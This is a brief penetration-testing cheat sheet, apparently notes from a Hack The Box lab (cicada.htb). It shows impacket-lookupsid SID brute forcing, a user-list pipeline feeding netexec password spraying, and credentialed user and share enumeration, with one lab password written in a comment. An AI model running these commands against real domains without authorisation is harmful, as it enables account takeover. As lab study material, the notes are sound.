 ## lookupsid
lookupsid.py
### Enumerate users
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we can specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
# No pass
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass

# Known pass
impacket-lookupsid user.name@cicada.htb
```

## netexec
### Password spraying
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
### Enumerate users
Must have user credentials.
This will show "description" field from the AD.
```
# netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec smb <domain> -u <user> -p '<password>' --users
```
### Enumerate shares
Must have user credentials.
This will show user permissions to each share
```
netexec smb <domain> -u <user> -p '<password>' --shares
```
